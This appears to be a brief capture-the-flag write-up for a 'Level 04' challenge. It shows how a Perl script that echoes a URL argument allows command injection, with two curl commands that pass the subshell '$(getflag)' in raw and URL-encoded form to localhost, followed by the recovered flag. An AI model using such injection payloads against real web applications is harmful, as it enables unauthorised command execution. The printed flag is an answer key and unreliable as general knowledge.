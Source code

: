 # Level 04

We got a perl script that takes the argument of the url and echoes it using echo

We can exploit that by executing a subshell in the echo

```
curl "localhost:4747?x=$(getflag)"
```

This is a url so we have to encode the invalid characters

```
curl "localhost:4747?x=%24%28getflag%29"
```


**Flag** : ne2searoevaevoem4ov4ar8ap